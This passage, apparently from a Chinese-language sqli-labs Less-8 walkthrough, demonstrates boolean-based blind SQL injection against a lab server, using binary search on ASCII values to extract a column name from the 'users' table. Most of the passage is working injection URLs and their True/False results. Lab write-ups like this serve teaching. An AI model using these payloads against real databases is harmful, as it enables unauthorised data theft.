 说明`users`表中第一列长度为2。

可以测试出总共3列长度分别为:2,8,8。

#### 获取列名 ####

采用二分法。

以下返回`You are in`表示`True`,无返回表示`Flase`

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 95<=ascii(substr((select column_name from information_schema.columns where table_name="users" limit 0,1),1,1))%23`

95:True

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 109<=ascii(substr((select column_name from information_schema.columns where table_name="users" limit 0,1),1,1))%23`

109:False

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 102<=ascii(substr((select column_name from information_schema.columns where table_name="users" limit 0,1),1,1))%23`

102:True

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 106<=ascii(substr((select column_name from information_schema.columns where table_name="users" limit 0,1),1,1))%23`

106:False

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 104<=ascii(substr((select column_name from information_schema.columns where table_name="users" limit 0,1),1,1))%23`

104:True

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 105<=ascii(substr((select column_name from information_schema.columns where table_name="users" limit 0,1),1,1))%23`

105:True

确定ascii码值为105,对应的字符为`i`。因为上面查出的列长度为2,再测试第一列的的第二个字符就可以了,还是用二分法查第二个字符。

直接上结果:

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 100=ascii(substr((select column_name from information_schema.columns where table_name="users" limit 0,1),2,1))%23`


![16](/img/sql/Lesson-8/16.png)
